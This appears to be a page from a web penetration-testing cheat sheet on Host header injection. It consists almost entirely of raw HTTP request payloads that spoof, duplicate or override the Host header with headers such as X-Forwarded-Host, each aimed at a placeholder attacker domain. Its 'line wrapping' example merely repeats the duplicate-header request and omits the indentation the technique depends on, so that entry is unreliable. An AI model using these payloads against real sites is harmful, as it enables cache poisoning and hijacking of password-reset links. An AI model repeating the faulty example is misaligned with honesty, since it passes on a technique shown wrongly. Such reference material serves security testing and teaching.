 ```yaml
---
title: "Host Header Injection"
draft: false
images: []
menu:
  docs:
    parent: "Web Pentest"
weight: 100
toc: true
---
```


### Change the host header
```
GET /index.php HTTP/1.1
Host: evil-website.com
...
```
### Duplicating the host header
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
### Add line wrapping
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
### Add host override headers
```
X-Forwarded-For : evil-website.com
X-Forwarded-Host : evil-website.com
X-Client-IP : evil-website.com
X-Remote-IP : evil-website.com
X-Remote-Addr : evil-website.com
X-Host : evil-website.com
```
### X-Forwarded-For : evil.com
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```
### Supply an absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```